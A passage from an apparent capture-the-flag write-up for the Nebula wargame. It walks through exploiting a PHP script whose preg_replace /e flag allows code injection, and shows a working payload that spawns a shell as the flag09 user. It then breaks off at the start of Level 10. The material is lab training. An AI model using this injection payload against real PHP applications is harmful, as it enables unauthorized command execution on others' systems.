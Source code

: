   return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
{{< / highlight >}}

Let's run it to see what it actually does.

{{< highlight console >}}
level09@nebula:/home/flag09$ echo [email mail@test.com] > /tmp/test.txt
level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
mail AT test dot com
{{< / highlight >}}

So the vulnerable part here is the `preg_replace` with the *e* flag. For information on this see [https://bugs.php.net/bug.php?id=35960](https://bugs.php.net/bug.php?id=35960).

So there's a few ways we can exploit this. We basically need to pass a command to the script that will get executed in the `preg_replace`. Let's try to simply get a shell as the *flag09* user and get our flag.

{{< highlight console >}}
level09@nebula:/home/flag09$ echo '[email ${${@system('sh')}}]' > /tmp/test.txt
level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
sh-4.2$ whoami
flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 10 ##

> The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call. 

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
